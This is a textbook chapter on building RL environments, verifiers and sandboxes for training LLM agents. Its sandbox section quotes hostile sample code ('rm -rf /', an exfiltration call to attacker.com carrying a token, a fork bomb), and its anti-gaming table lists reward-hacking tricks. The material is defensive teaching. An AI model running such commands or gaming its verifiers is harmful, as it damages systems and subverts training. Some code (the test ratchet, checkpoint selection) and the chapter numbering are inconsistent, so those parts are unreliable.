




# 15.5 RL Environments and Verifiers

> [Section 13.3, AI Feedback and Safety Principles](../chapter21_cai_rlvr/hhh-practice), explains how AI feedback can reduce manual labeling. This section continues the discussion of RLVR from Chapter 15 and replaces a learned reward model with rule-based verifiers. Once tasks expand from checking a mathematical answer to writing code, using tools, booking a flight, or fixing a bug, **the reward signal itself becomes a bottleneck**. We will study how to package real-world tasks as trainable RL environments and how to design verifiers that resist reward hacking.

## RL Environments as a New Bottleneck

Modern models can reason, write code, and call tools. Training them on long-horizon tasks such as resolving a GitHub issue, booking a flight, or cleaning a dataset requires more than an algorithm and a set of GPUs. The training system also needs an environment that can execute actions, preserve state, return observations, and judge whether the task was completed.

This changes where most of the engineering effort goes. An environment must be reproducible enough for training, realistic enough for useful behavior to transfer, and strict enough that the model cannot earn reward through a shortcut. The verifier must then distinguish genuine task completion from outputs that merely look plausible.

To see why, return to the PPO/GRPO objective from [Chapter 15](../chapter18_grpo/grpo-family):

$$\nabla_\theta J(\theta) = \mathbb{E}_{\tau \sim \pi_\theta}\left[\sum_t A(s_t, a_t) \cdot \nabla_\theta \log \pi_\theta(a_t \mid s_{<t}, a_{<t})\right]$$

This gradient requires trajectories $\tau$ sampled from the current policy. For a mathematics problem, $\tau = (\text{prompt}, \text{answer})$ is short, mostly deterministic, and easy to score. For an agent task, $\tau = (\text{prompt}, \text{action}_1, \text{obs}_1, \text{action}_2, \ldots, \text{action}_T, \text{final\_obs})$ may contain hundreds or thousands of steps. Each step can require a real tool call—executing code, opening a browser, or invoking an API—and a verifier must judge the final state.



Each rollout represents interaction with the real environment, and the **wall-clock cost per trajectory** can soar from 0.1 seconds in RLHF to 10 minutes (to complete a SWE-bench task). This is the core constraint in RL Environments engineering:

$$\text{Throughput} = \frac{N_{\text{parallel\_sandboxes}}}{T_{\text{rollout}}}$$

Either increase the number of parallel sandboxes (expensive but simple), or shorten the time per rollout (difficult but with an upper bound), or decouple rollouts from training (asynchronous RL, see 22.6). The entire Chapter 23 revolves around these two numbers in engineering.

## Equivalence between Evals and RL Environments

Pash 2025 proposed a proposition widely accepted in the industry:

> **Evals = RL Environments**

Formally, an eval $E = (\mathcal{P}, \mathcal{V})$ consists of two parts:

- Task distribution $\mathcal{P}$: sample a task $p \sim \mathcal{P}$ from the prompt distribution
- Verifier $\mathcal{V}: (\text{trajectory}, \text{ground\_truth}) \to \{0, 1\}$: determine whether the trajectory solves the task

An RL environment $\mathcal{M} = (\mathcal{S}, \mathcal{A}, P, R, \gamma)$ can be viewed as:

- Initial state $s_0 \sim \mathcal{P}$ (same as eval)
- Transition $P(s_{t+1} \mid s_t, a_t)$ is provided by real tools/sandbox
- Terminal reward $r_T = \mathcal{V}(\tau)$ (same as the verifier in an eval)

The difference lies only in **usage frequency**: an eval is "used once to compute a score", while an RL environment is "a data source for repeated sampling during training". **This means: a well-designed eval can be directly reused as an RL environment.** This is the theoretical foundation of Eval-Driven RL Training.

### The Inverse Proposition: Training is Evaluation

A more radical proposition: **Training is Evaluation**. In GRPO/PPO training, each policy round must sample G times (GRPO's group size) from the eval set. Evaluation is no longer a "run once after training" step, but rather a "run every round during training" process. This means:

1. The eval set must be sufficiently large to avoid overfitting — but at the same time, the verifier's computational cost must be controlled.
2. The eval set must be consistent with the training distribution — otherwise, the learned policy will fail in real-world deployment.
3. The eval set must be robust to contamination — if training data leaks into the eval set, the metrics will be artificially inflated.

```python
# Treat the eval set as an RL environment and run it on every policy update
for step in range(n_steps):
    # 1. Sample a batch from the eval set
    prompts = sample(eval_set, batch_size=B)

    # 2. For each prompt, sample G rollouts (GRPO)
    trajectories = []
    for p in prompts:
        for _ in range(G):
            tau = policy.rollout(p, env=sandbox)
            trajectories.append(tau)

    # 3. Verifier computes rewards
    rewards = [verifier(tau, ground_truth) for tau in trajectories]

    # 4. GRPO update (reward group normalization)
    policy.grpo_update(trajectories, rewards)
```

This "training is evaluation" loop is explicitly designed as a train-able environment in benchmarks such as [τ-bench](https://github.com/sierra-research/tau-bench), [SWE-Gym](https://arxiv.org/abs/2412.21139), and [CyberGym](https://arxiv.org/abs/2506.02548).

::: tip Unification of Evals and RL Environments
Industrial Practice: **Write the eval first, then turn it into an RL environment**. If the verifier is too slow, too subjective, or too easy to cheat, it cannot be used as an RL environment. Conversely, a stable RL environment is almost certainly also a reliable eval. Start by evaluating your verifier — it sets the upper bound of your environment's quality.
:::

## Verifier Design Principles

The Verifier $\mathcal{V}$ is the soul of the RL environment. A poor Verifier can lead the policy to learn behaviors that "maximize reward but fail the task" (reward hacking). Verifier design follows four principles:

### Correctness

The Verifier must accurately determine whether "the task has been truly completed." Ideally, $\mathcal{V}$ is a **deterministic** function — given the same trajectory, it always produces the same result. This avoids introducing variance. There are two sources of correctness:

- **Formal Correctness**: Unit testing, type checking, mathematical proofs, theorem provers (Lean, Coq) — verifiable mechanically
- **Reference Answer Matching**: Comparing with a pre-labeled ground truth — simple but has annotation cost

A typical use case for math problems is reference answer matching: $\mathcal{V}(\text{answer}, y^*) = \mathbb{1}[\text{extract}(\text{answer}) == y^*]$. For code tasks, unit testing is used:

```python
def code_verifier(generated_code, test_cases):
    # 1. Execute the generated code in a sandbox (to prevent malicious operations)
    results = sandbox.run(generated_code, inputs=test_cases.inputs)

    # 2. Check the output for each test case
    n_pass = sum(
        1 for out, expected in zip(results, test_cases.expected)
        if exact_match(out, expected)
    )

    # 3. The pass rate is the reward
    return n_pass / len(test_cases)
```

### Efficiency

The Verifier is called $B \times G$ times per training round ($B$ is the batch size, $G$ is the group size), which can easily reach millions. If a single verification is slow (e.g., running 100 test cases takes 30 seconds), the entire training pipeline will be bottlenecked by the Verifier. Common optimizations include:

- **Parallelization**: Each sandbox is independent and can be scheduled using Ray/Kubernetes for distributed execution.
- **Early Termination**: Return 0 immediately upon the first test failure, skipping the remaining 99 tests.
- **Binary Rewards**: Avoid continuous rewards (e.g., partial pass rates) that increase variance. Binary $\{0, 1\}$ rewards are more stable and are friendly to GRPO.

::: warning Continuous Rewards vs Binary Rewards
RLHF uses continuous rewards (RM outputs a scalar), but RLVR almost always uses binary rewards. Reasons include:

- Binary rewards have less variance than RM training.
- GRPO normalizes within the group, and binary rewards with group normalization are equivalent to "pass/fail" relative advantage.
- Continuous rewards are easily hacked in long-horizon tasks (the policy finds RM's preference loopholes).

However, binary rewards require the Verifier to be **extremely reliable** — a single misjudgment will be exploited repeatedly by the policy.
:::

### Anti-gaming

Policy optimization is a process of "adversarial against the Verifier" — as long as the Verifier has exploitable loopholes, the policy will find them. Classic reward hacking patterns include:

| Task          | Hacking Pattern                                              | Mitigation                          |
| ------------- | ------------------------------------------------------------ | ----------------------------------- |
| Unit Test     | Write empty functions to make all `assert False` not execute | Enforce coverage ≥ 90%              |
| Math Proof    | Use unproven lemmas                                          | Formal verification with Lean/Coq   |
| Web Browsing  | Modify DOM to simulate "success"                             | Execute in real browsers            |
| Data Analysis | Hardcode answers directly                                    | Hold-out test set                   |
| Email Reply   | Reply "Yes" to everything                                    | Secondary verification by human/LLM |

Formally, anti-gaming requires the Verifier to satisfy:

$$\forall \tau_{\text{fake}}, \quad \mathcal{V}(\tau_{\text{fake}}, y^*) = 0$$

Where $\tau_{\text{fake}}$ represents any trajectory where the task is not truly completed but appears to be completed on the surface. This is the **inescapability constraint** of the _Verifier_.

### Formal vs Heuristic

The design of the _Verifier_ involves a trade-off between two types:

- **Formal Verifier**: Unit testing, Lean proof, SQL execution — 100% correct, but requires the task to have a formal semantics
- **Heuristic Verifier**: LLM-as-judge, rule matching, similarity — flexible but with the risk of false positives

Mathematical and coding tasks are well-suited for formal verification; writing, dialogue, and agent tasks often have to rely on heuristic (or hybrid) methods. **Formal verification is preferred**, as reinforcement learning will amplify the imperfections of heuristics into strategy defects.



## Sandbox Engineering

The core of the environment for agent tasks is the **sandbox** — an isolated execution environment where the policy reads and writes files, executes code, and calls tools. Sandbox engineering must address three key issues:

### Isolation

The code output by the policy may be malicious — such as `os.system("rm -rf /")`, `requests.get("attacker.com/exfil?token=...")`, or a fork bomb. The sandbox must ensure:

- **Filesystem Isolation**: The container's rootfs is independent and cannot access the host
- **Process Isolation**: namespace + cgroup, with CPU/memory quotas
- **Network Isolation**: Default no network, with a whitelist of domains

Docker is the industry standard:

```dockerfile
# Sandbox base image with minimized attack surface
FROM python:3.11-slim

# Run as a non-privileged user
RUN useradd -m agent
USER agent
WORKDIR /workspace

# Pre-install common libraries (avoid reinstalling on each rollout)
RUN pip install --no-cache-dir \
    numpy pandas scikit-learn requests \
    pytest

# CPU/memory limits are set at the host level via cgroup
```

Each rollout starts an independent container, which is destroyed upon completion:

```python
class Sandbox:
    def __init__(self, image="agent-sandbox:latest", cpu=2, mem="2G", timeout=60):
        self.client = docker.from_env()
        self.container = self.client.containers.create(
            image,
            cpu_count=cpu,
            mem_limit=mem,
            network_mode="none",  # Default no network
            detach=True,
            tty=True,
        )
        self.container.start()
        self.timeout = timeout

    def exec(self, command: str) -> str:
        """Execute a command in the sandbox, returning stdout/stderr"""
        try:
            result = self.container.exec_run(
                command, workdir="/workspace", timeout=self.timeout
            )
            return result.output.decode()
        except docker.errors.APIError as e:
            return f"[SANDBOX_ERROR] {e}"

    def write_file(self, path: str, content: str):
        """Write policy-generated code into the sandbox"""
        self.exec(f"mkdir -p $(dirname {path})")
        self.container.put_archive(
            "/workspace",
            io.BytesIO(self._tar_bytes(path, content))
        )

    def cleanup(self):
        self.container.remove(force=True)
```

### Network Whitelist

Many tasks require network access (e.g., calling public APIs, downloading packages). A whitelist approach can be implemented as follows:

```python
# Using iptables to restrict outgoing connections at the container level
ALLOWED_DOMAINS = {
    "pypi.org", "files.pythonhosted.org",  # For pip installation
    "api.github.com", "raw.githubusercontent.com",  # For reading open-source code
}

def setup_network_whitelist(container):
    for domain in ALLOWED_DOMAINS:
        ip = socket.gethostbyname(domain)
        container.exec_run(
            f"iptables -A OUTPUT -d {ip} -j ACCEPT"
        )
    container.exec_run("iptables -A OUTPUT -j DROP")
```

A more modern approach is to use [Firecracker microVM](https://firecracker-microvm.github.io/) or [gVisor](https://gvisor.dev/) as an alternative to Docker. These solutions offer faster startup times (< 125ms) and stronger isolation (KVM-level virtualization).

### Parallel Multi-Agent Sandbox

RL training requires thousands of parallel rollouts. Each sandbox typically consumes about 500MB of memory, and 1000 concurrent rollouts would require 500GB of memory. Engineering optimizations:

```python
# Using Ray to schedule the sandbox pool
import ray

@ray.remote(num_cpus=2, memory=2e9)
class SandboxActor:
    def __init__(self):
        self.sandbox = Sandbox()

    def rollout(self, prompt: str, policy) -> dict:
        trajectory = []
        obs = prompt
        for t in range(MAX_STEPS):
            action = policy.act(obs)
            if action.type == "exec":
                obs = self.sandbox.exec(action.code)
            elif action.type == "done":
                break
            trajectory.append((obs, action))
        return {"trajectory": trajectory, "sandbox_id": id(self.sandbox)}

# Launch N actors for concurrent sampling
sandboxes = [SandboxActor.remote() for _ in range(N)]
futures = [sb.rollout.remote(p, policy) for sb, p in zip(sandboxes, prompts)]
results = ray.get(futures)
```

::: details Sandbox Pool Reuse vs. New Instance Each Time
**New Instance Each Time**: Complete isolation, but container startup takes about 1 second, which is negligible in long rollouts.

**Pool Reuse**: Start once and reuse across multiple rounds—fast but with the risk of state leakage (temporary files from previous rollouts affecting the next). Strict reset is required (`rm -rf /workspace/*` + restart shell).

Practical experience: Use new instances for single rollouts under 30 seconds; use pool reuse for long-running tasks over 5 minutes.
:::

## Long-Run Task Harness

[Anthropic 2025.11 Effective Harnesses](https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents) summarizes "how to make agents work stably in long-running tasks with over 100 steps." The core conclusion: **the quality of the harness (task scaffold) determines the upper limit of the agent's performance**.

### Progress File Pattern and `claude-progress.txt`

The biggest failure mode in long-running tasks is **amnesia** — the agent forgets the goal from step 1 by step 50. The solution is to have the agent write its progress to a fixed file:

```
# claude-progress.txt
## Goal
Fix the memory leak in worker.py reported in issue #1234

## Done
- [x] Reproduced leak with stress test (test_leak.py)
- [x] Identified root cause: unbounded cache in WorkerPool._results
- [x] Added eviction policy (max_size=1000)

## In Progress
- [ ] Running pytest on full test suite

## Next Steps
- Update CHANGELOG.md
- Open PR
```

Every N steps, the agent rewrites the progress file. When making the next decision, the entire file is inserted into the context. This moves the "working memory" from the model's internal context window to an external file, enabling the handling of arbitrarily long task histories.

### Feature List Pattern and `feature_list.json`

For "software development" type tasks, let the agent explicitly maintain a feature list:

```json
{
  "features": [
    { "name": "auth.login", "status": "done", "tests": ["test_login.py"] },
    {
      "name": "auth.logout",
      "status": "in_progress",
      "tests": ["test_logout.py"]
    },
    { "name": "api.users", "status": "todo", "tests": [] }
  ]
}
```

The agent decides on the next step by looking at the feature list each time it makes a decision. This is **explicit task decomposition**, which prevents the agent from getting stuck in details and forgetting the big picture.

### Test Ratchet Pattern

"Ratchet" (Ratchet) — only forward, never backward. When the agent modifies code, it requires that **passed tests cannot fail again**:

```python
class TestRatchet:
    def __init__(self, test_suite):
        self.test_suite = test_suite
        self.passed_tests = set()

    def check(self, agent_code):
        results = run_tests(agent_code, self.test_suite)

        # Ratchet: failed tests that were previously passed are rejected
        regressions = self.passed_tests - set(results.passed)
        if regressions:
            return {
                "accept": False,
                "reason": f"Regression in: {regressions}",
                "reward": 0,
            }

        # Add newly passed tests to the ratchet
        self.passed_tests |= set(results.passed)

        return {
            "accept": True,
            "newly_passed": set(results.passed) - self.passed_tests,
            "reward": len(results.passed) / len(self.test_suite),
        }
```

This pattern ensures that the agent's progress is not undone, promoting a continuous improvement trajectory.

**Test ratchet** forces the agent **not to break existing functionality** — this is widely used in code tasks such as SWE-bench and Terminal-Bench.

### Karpathy's "5-6 agents" Pattern

Karpathy proposed a practical pattern in 2025: **for long-range tasks, launch 5–6 agent instances in parallel to tackle the problem simultaneously**, and select the first one to complete as the answer.

Formally, run $N$ independent agent instances $\pi_\theta^{(1)},\ldots,\pi_\theta^{(N)}$ and select the trajectory with the highest verifier score:

$$
\tau^* = \arg\max_{\tau^{(i)}, i=1..N} \mathcal{V}(\tau^{(i)})
$$

This is an extension of **best-of-N sampling** to agent tasks. When the verifier is reliable and the computational budget is sufficient, running 5–6 parallel agents can improve success rates by 2–3 times compared to a single sequential agent. This is the standard technique used by models such as Sonnet 3.5 / Claude 4 / GPT-5 to achieve top performance on SWE-bench.



## Synchronous vs Asynchronous RL Training

The main loop of RL training has two modes: **synchronous** and **asynchronous**. The difference lies in the temporal relationship between rollout and gradient step.

### Synchronous Mode

Mainstream frameworks such as veRL, TRL, and OpenRLHF default to synchronous mode: each gradient step **waits for all rollouts in the current batch to complete** before performing a parameter update.

```python
# Synchronous main loop
for step in range(n_steps):
    # 1. Wait for all B rollouts in the current batch to complete
    trajectories = []
    for prompt in prompts:
        tau = rollout(policy, prompt, env=sandbox)  # Blocking
        trajectories.append(tau)

    # 2. Compute advantages
    advantages = compute_advantages(trajectories)

    # 3. Perform one or more gradient steps
    policy.ppo_update(trajectories, advantages)
```

**Advantages**: Strict on-policy behavior, simple implementation, and mathematically consistent with PPO/GRPO.

**Disadvantages**: **The variance in rollout time is amplified**. For example, if 95% of rollouts take 10 seconds and 5% take 10 minutes (due to a stuck agent), each step must wait for the 5%—resulting in GPU utilization less than 50%.

### Asynchronous Mode

[AReaL (arXiv:2505.24298)](https://arxiv.org/abs/2505.24298), [AgentRL (arXiv:2510.04206)](https://arxiv.org/abs/2510.04206), [slime](https://github.com/THUDM/slime), [ROLL](https://github.com/alibaba/ROLL), LlamaRL, and other asynchronous frameworks share the following idea: **decoupling rollout and training**, where rollout actors continuously sample data, and the trainer updates the policy using the latest available data.

```python
# Asynchronous main loop (pseudo-code)
rollout_queue = Queue()
trainer_queue = Queue()

# Rollout process group with continuous sampling
def rollout_worker(policy_ref):
    while True:
        prompt = prompt_stream.next()
        tau = rollout(policy_ref, prompt, env=sandbox)
        rollout_queue.put((prompt, tau))

# Trainer process with updates whenever data is available
def trainer(policy):
    while True:
        batch = collect_batch(rollout_queue, min_size=B)
        advantages = compute_advantages(batch)
        policy.ppo_update(batch, advantages)
        broadcast_new_policy(policy)  # Push the new policy to rollout workers
```

The key technical challenge in asynchronous mode is **staleness** — the rollout workers may be using an old policy from N steps ago, and the collected data is off-policy with respect to the current policy. There are two approaches to handle this:

1. **Importance Sampling Correction**: Add the importance sampling ratio $\rho = \pi_\theta(a|s) / \pi_{\theta_{\text{old}}}(a|s)$ to the PPO/GRPO objective, and downweight samples where $\rho$ deviates from 1 (clipping)
2. **Staleness Upper Bound**: Discard samples older than $N > N_{\max}$ steps (typically $N_{\max} = 4$)

### Acceleration Effects

The AReaL paper reports the results of training Llama-3-8B on agentic tasks:

| Mode                 | GPU Utilization | Wall-clock / Step | Speedup   |
| -------------------- | --------------- | ----------------- | --------- |
| Synchronous (veRL)   | 45%             | 320s              | 1.0×      |
| Asynchronous (AReaL) | 92%             | 115s              | **2.77×** |

The acceleration mainly comes from:

- **No GPU idling**: The trainer keeps working continuously without waiting for rollout.
- **Rollout does not block**: Slow tasks do not affect fast tasks.
- **Pipeline parallelism**: The three stages of rollout, inference, and training overlap.

::: warning Asynchronous is not a free lunch
Asynchronous training introduces **off-policy bias**. If the staleness $N$ is too large, IS clipping discards a significant number of samples (reducing the effective batch size), which can lead to a decrease in training efficiency. Practical experience shows:

- For short rollout (< 30 seconds) tasks: Synchronous is more stable.
- For long rollout (> 5 minutes) agentic tasks: Asynchronous provides significant gains.
- For extremely long tasks (> 1 hour): Asynchronous is the only feasible option.
  :::

More detailed engineering details are provided in [Appendix B.1: RL Training System](../appendix_industrial_training/rl-infrastructure).

## Evaluation Benchmarks

The quality of RL environments ultimately needs to be validated on widely recognized benchmarks. As of 2025, mainstream agent RL benchmarks are categorized by task type as follows:

### Code and Software Engineering

| Benchmark                                              | Task                                       | Verifier                    | Features                     |
| ------------------------------------------------------ | ------------------------------------------ | --------------------------- | ---------------------------- |
| **[SWE-bench](https://arxiv.org/abs/2310.06770)**      | Fix real GitHub issues                     | Unit tests (passed + fixed) | Industry SWE agent benchmark |
| **[SWE-Gym](https://arxiv.org/abs/2412.21139)**        | Training set version of SWE-bench          | Same as above               | Designed for RL training     |
| **[Terminal-Bench](https://arxiv.org/abs/2601.11868)** | Terminal tasks (git, ssh, file operations) | State checks                | Real shell environment       |
| **[LiveCodeBench](https://arxiv.org/abs/2403.07974)**  | Algorithm problems (monthly updates)       | Unit tests                  | Anti-pollution design        |
| **[CyberGym](https://arxiv.org/abs/2506.02548)**       | CTF security tasks                         | Flag matching               | Formalized                   |

### Tool Calling and Function Calling

| Benchmark                                                                                            | Task                                       | Verifier                          |
| ---------------------------------------------------------------------------------------------------- | ------------------------------------------ | --------------------------------- |
| **[BFCL](https://proceedings.mlr.press/v267/patil25a.html)** (Berkeley Function Calling Leaderboard) | Correct function + parameter calling       | Exact match + type checking       |
| **[τ-bench](https://arxiv.org/abs/2406.12045)** (Salesforce)                                         | Simulate customer agent (aviation, retail) | Task completion + rule compliance |
| **[ToolBench](https://arxiv.org/abs/2307.16789)**                                                    | Call 16,000+ real APIs                     | End-to-end task completion        |

### Web and Browser

| Benchmark                                              | Task                                   | Verifier              |
| ------------------------------------------------------ | -------------------------------------- | --------------------- |
| **[WebArena](https://arxiv.org/abs/2307.13854)**       | Web navigation (shopping, forums, CMS) | End-to-end state      |
| **[VisualWebArena](https://arxiv.org/abs/2401.13649)** | Multimodal version of WebArena         | Same as above         |
| **[BrowseComp](https://openai.com/index/browsecomp/)** | Difficult web retrieval                | Exact answer matching |

### Long-Horizon and Multi-Turn

| Benchmark                                                       | Task                                | Verifier          |
| --------------------------------------------------------------- | ----------------------------------- | ----------------- |
| **[Vending-Bench](https://arxiv.org/abs/2502.15840)** (V-BENCH) | Long-term vending machine operation | Cumulative profit |
| **[GAIA](https://arxiv.org/abs/2311.12983)**                    | General assistant multi-step tasks  | Answer matching   |
| **[Mind2Web](https://arxiv.org/abs/2306.06070)**                | Real-world web tasks                | DOM state         |

### Principles for Selecting Benchmarks



::: tip Benchmark Combination
No single benchmark covers all capabilities. Industrial training typically uses a **combination of 3-5 benchmarks**: code (SWE-bench) + tools (τ-bench) + Web (WebArena) + long-horizon (Vending-Bench). This allows independent validation of strategy capabilities across different dimensions and avoids overfitting to a single benchmark.
:::

## Engineering the Training-Evaluation Loop

Putting all the above components together, the complete RL training-evaluation loop involves four sub-problems.

### Eval-Driven RL Training

It is not "train and then evaluate", but "evaluate while training". This requires the evaluation set to be completely separate from the training set, and evaluation to be automatically run at each checkpoint:

```python
class EvalDrivenRLTrainer:
    def __init__(self, policy, train_env, eval_envs):
        self.policy = policy
        self.train_env = train_env
        self.eval_envs = eval_envs  # dict: name -> env

    def train_step(self):
        # Training step
        trajectories = self.train_env.rollout_batch(self.policy)
        self.policy.update(trajectories)

    def eval_checkpoint(self, checkpoint_path):
        results = {}
        for name, env in self.eval_envs.items():
            scores = [env.eval(self.policy) for _ in range(N_EVAL_ROLLOUTS)]
            results[name] = {
                "mean": np.mean(scores),
                "std": np.std(scores),
                "pass_at_1": np.mean([s >= 1.0 for s in scores]),
            }
        return results

    def train(self, n_steps, eval_every=100):
        for step in range(n_steps):
            self.train_step()
            if step % eval_every == 0:
                ckpt = self.save_checkpoint(step)
                eval_results = self.eval_checkpoint(ckpt)
                self.log(step, eval_results)
                # Early stopping: if converged on all evaluations
                if self.converged(eval_results):
                    break
```

### Incremental Eval

A full eval set may contain over 1000 tasks, and running all of them in each iteration is computationally expensive. Incremental evaluation strategies include:

- **Hierarchical eval set**: fast (100 questions, run every 10 steps), medium (500 questions, run every 100 steps), full (all questions, run at every checkpoint)
- **Active sampling**: prioritize evaluation of questions where the strategy is most uncertain (e.g., where the RM output is close to 0.5)

$$\text{sample\_priority}(p) = \mathcal{H}(\mathcal{V}(\pi(\cdot | p))) = -\sum_y P(y|p) \log P(y|p)$$

Prompts with high entropy (i.e., where the strategy is uncertain) are prioritized for evaluation, while prompts with low entropy (i.e., where the strategy is already confident or consistently incorrect) are evaluated less frequently.

### Data Contamination Detection

If training data leaks into the evaluation set, performance metrics may appear artificially high, but the model may fail in real-world deployment. Detection methods include:

1. **n-gram overlap**: the rate of 8-gram overlap between the evaluation prompt and the training corpus
2. **Embedding similarity**: using sentence embeddings to find the closest training samples
3. **Held-out replacement**: periodically replacing old questions with new ones, and observing if performance drops sharply (a sharp drop indicates prior overfitting)

```python
def detect_contamination(eval_prompt, train_corpus, n=8):
    eval_ngrams = set(extract_ngrams(eval_prompt, n))
    train_ngrams = build_ngram_index(train_corpus, n)
    overlap = len(eval_ngrams & train_ngrams) / len(eval_ngrams)
    return overlap > 0.3  # 30% or more is considered suspicious contamination
```

### Checkpoint Selection and Regression Testing

During training, hundreds of checkpoints are generated. Which one should be deployed? Based on the Pareto frontier of evaluations:

```python
def select_checkpoint(eval_history):
    # eval_history: [{ckpt, swe_bench, tau_bench, webarena}, ...]
    pareto_front = []
    for ckpt in eval_history:
        dominated = any(
            other.swe >= ckpt.swe and
            other.tau >= ckpt.tau and
            other.web >= ckpt.webarena and
            other is not ckpt
            for other in eval_history
        )
        if not dominated:
            pareto_front.append(ckpt)
    return pareto_front
```

In addition, **regression testing** is required: the new checkpoint must not degrade the production metrics compared to the previous version (similar to the 23.5 test ratchet, but on the evaluation set).

### Relationship with Model Alignment Failures

Poor quality of RL environments can lead to a series of alignment failures—such as the policy learning to exploit verifier vulnerabilities, overfitting to the evaluation set, and sensitivity to noise. These issues are thoroughly analyzed in [Chapter 25: Alignment Failures](../chapter30_alignment_failures/classical-failures). This chapter takes an engineering perspective to prevent them: **first, ensure the environment is well-designed, then discuss policy alignment**.

## Summary of This Chapter

1. **RL Environments are a new bottleneck**—although models can reason and invoke tools, training long-horizon agents is constrained by the throughput of the environment. The investment by Anthropic, Mechanize, and others indicates that this is a core engineering direction for 2025–2026.
2. **Evals = RL Environments**—a good evaluation verifier is also a good RL environment. Eval-driven training unifies training and evaluation.
3. **Four Principles of Verifiers**—correctness, efficiency, anti-cheating, and formal priority. A bad verifier can lead the policy to learn hacking techniques.
4. **Sandbox Engineering**—Docker/Firecracker isolation, network white-listing, and Ray parallel scheduling form the infrastructure for agent RL.
5. **Long-Horizon Harness**—progress file, feature list, test ratchet, and the 5–6 agents mode determine the upper limit of success for agents on tasks with over 100 steps.
